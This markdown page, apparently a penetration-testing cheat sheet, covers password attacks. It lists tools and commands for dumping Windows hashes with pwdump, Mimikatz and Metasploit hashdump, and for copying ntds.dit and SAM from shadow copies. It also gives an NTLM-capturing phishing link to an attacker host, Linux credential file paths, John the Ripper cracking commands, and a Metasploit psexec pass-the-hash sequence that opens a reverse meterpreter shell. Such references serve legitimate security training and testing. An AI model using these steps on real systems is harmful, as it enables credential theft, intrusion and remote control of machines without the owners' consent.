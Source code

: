 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```

 
> **Obtain Windows Passswords**
Pwdump (File Dropped to Disk Caught by AV) | http://www.tarasco.org/security/pwdump_7/
fgdump (File Dropped to Disk Caught by AV, Source available to evade AV) | http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other versions of pwdump | http://www.openwall.com/passwords/windows-pwdump
Metasploit hashdump | <code> meterpreter >hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry) </code>
Mimikatz | https://github.com/gentilkiwi/mimikatz
	
**Volume Shadow Copy Service (domain controller)**
{% highlight bash %}
https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs  
https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  
cscript vssown.vbs /status or /start or /create /c
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
{% endhighlight %}

**Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Linux Password Locations** 

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>

> **Password Guessing**

Hyrda

> **Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>

> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)

> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>

> **Pass the Hash**

***May require RID 500 account due to patch***
	
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd



